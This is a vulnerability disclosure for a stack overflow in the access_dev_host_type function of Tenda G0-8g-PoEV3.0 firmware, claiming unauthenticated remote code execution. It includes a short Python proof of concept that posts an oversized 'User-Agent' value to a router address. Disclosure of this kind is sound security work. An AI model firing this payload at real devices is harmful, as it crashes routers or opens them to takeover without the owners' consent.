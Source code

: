 # Tenda G0-8g-PoEV3.0 access_dev_host_type
### Overview
vendor: Tenda

product: G0-8g-PoEV3.0

version: V16.01.15.5(3680)

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.15.5(3680) were discovered to contain a stack overflow in the access_dev_host_type function. This device has an unauthorized RCE vulnerability. Attackers can obtain root privileges without logging in.
### Vulnerability details
In function access_dev_host_type line 15、19, it reads in a user-provided parameter `User-Agent`, and the variable `v5` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-8g-poev30-1-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
